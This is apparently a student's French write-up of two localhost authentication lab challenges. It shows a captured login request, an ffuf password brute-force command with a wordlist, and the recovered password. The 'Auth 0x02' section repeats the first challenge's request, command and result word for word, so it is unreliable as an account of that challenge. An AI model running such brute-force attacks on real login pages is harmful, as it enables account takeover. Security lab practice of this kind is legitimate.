 # Auth 0x01
## preuve:


![Texte alternatif](Auth_0x01.png)
## Explication 
1- Il faut récupérer la request de la page login via Burpsuit, ensuite enregistrer la request en .txt :
```
POST /labs/a0x01.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/a0x01.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=jeremy&password=FUZZ
```
 La section qui nous interrese est ```username=jeremy&password=FUZZ```, j'ai remplacé le mdp que j'ai rentré lors de ma requet par ```FUZZ```

Une fois ceci fait, j'ai procéder a une attaque brute force via une wordlist télécharger préalablement, voici les etapes :

  ## Lancé un terminal 
  
  
```
ffuf -request req.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814 

```
### et voici le resultat
```
  letmein  [Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 17ms]
		:: Progress: [10000/10000] :: Job [1/1] :: 298 req/sec :: Duration: [0:00:37] :: Errors: 0 
```
	
Je peux voir dans le resultat de la commande que un mot de passe a été trouvé : ```letmein```



# Auth 0x02
## preuve:


![Texte alternatif](Auth_0x02.png)

## Explication 
1- Il faut ce log via (log:jessamy, mdp:pasta).
Une fois cela fait une page s'ouvre avec :
![Texte alternatif](Auth_0x02_1.png)

```
POST /labs/a0x01.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/labs/a0x01.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

username=jeremy&password=FUZZ
```
 La section qui nous interrese est ```username=jeremy&password=FUZZ```, j'ai remplacé le mdp que j'ai rentré lors de ma requet par ```FUZZ```

Une fois ceci fait, j'ai procéder a une attaque brute force via une wordlist télécharger préalablement, voici les etapes :

  ## Lancé un terminal 
  
  
```
ffuf -request req.txt -request-proto http -w /usr/share/seclists/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814 

```
### et voici le resultat
```
  letmein  [Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 17ms]
		:: Progress: [10000/10000] :: Job [1/1] :: 298 req/sec :: Duration: [0:00:37] :: Errors: 0 
```
	
Je peux voir dans le resultat de la commande que un mot de passe a été trouvé : ```letmein```





